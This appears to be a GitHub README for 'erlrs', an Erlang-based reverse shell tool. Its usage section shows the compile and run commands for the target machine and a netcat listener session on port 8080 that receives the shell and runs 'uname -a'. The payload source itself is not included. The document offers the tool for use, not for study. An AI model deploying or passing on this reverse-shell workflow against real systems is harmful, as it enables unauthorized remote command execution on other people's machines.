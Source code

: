 # erlrs

erlang based reverse shell

**Usage**

Target
```
root@WOPR-KALI:/opt/erlrs# erlc erlrs.erl 
erlrs.erl:13: Warning: variable 'Reason' is unused
erlrs.erl:24: Warning: variable 'Reason' is unused
root@WOPR-KALI:/opt/erlrs# erl -noshell -s erlrs main

```

Listener
```
root@WOPR-KALI:~# nc -lvnp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44983
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
^C
```

![Screenshot from 2019-11-23 00-17-47](https://user-images.githubusercontent.com/56988989/69469085-e3644700-0d86-11ea-899d-07bd4f801bb9.png)
